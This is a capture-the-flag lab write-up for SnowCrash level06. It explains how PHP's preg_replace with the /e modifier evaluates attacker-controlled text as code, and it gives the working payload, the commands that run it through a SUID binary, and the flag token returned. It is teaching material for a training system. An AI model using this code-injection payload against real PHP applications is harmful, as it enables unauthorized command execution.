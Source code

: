 # Level06: PHP Code Injection via preg_replace /e Modifier

## Vulnerability Analysis

After examining the files in the level06 home directory, we find:

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

The level06 binary is owned by flag06 user and has the SUID bit set, which means it runs with flag06 privileges.

Looking at level06.php, we found:

```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

## Understanding the PHP Code

For those unfamiliar with PHP, here's what this code does:

1. **PHP Basics**: PHP is a server-side scripting language commonly used for web development. The code above is wrapped in `<?php ?>` tags which indicate PHP code.

2. **Function Definitions**:

   - Function `y($m)` takes a string parameter and replaces dots with " x " and @ symbols with " y"
   - Function `x($y, $z)` takes two parameters (although $z is never used):
     - It reads the contents of the file specified by $y
     - Performs a series of pattern replacements
     - Returns the modified content

3. **Main Execution**: The line `$r = x($argv[1], $argv[2]); print $r;` calls function x with command line arguments and prints the result.

## Vulnerability: preg_replace with /e modifier

The key vulnerability is in this line:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

Breaking this down:

- `preg_replace()` is a PHP function that searches for patterns in strings and replaces them
- `/(\[x (.*)\])/e` is a regular expression pattern:
  - `\[x` matches literal "[x"
  - `(.*)` captures any characters between "[x" and "]"
  - The `/e` modifier is critical - it tells PHP to evaluate the replacement string as PHP code after substitution

The `/e` modifier in preg_replace evaluates the replacement string as PHP code, which is a deprecated and dangerous feature that allows for remote code execution.

## Exploitation

1. Created a file with the following content:

```
[x {${`getflag`}}]
```

2. When processed by the PHP script, this payload works as follows:

   - Our pattern `[x {${`getflag`}}]` is matched by the regex
   - The `/e` modifier causes PHP to evaluate `y("{${`getflag`}}")` as code
   - The `${...}` syntax in PHP is variable interpolation
   - The backticks `` ` ` `` execute shell commands and return their output
   - So `getflag` is executed and its output is returned

3. Execution:

```
level06@SnowCrash:~$ echo '[x {${`getflag`}}]' > /tmp/exploit.txt
level06@SnowCrash:~$ ./level06 /tmp/exploit.txt
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
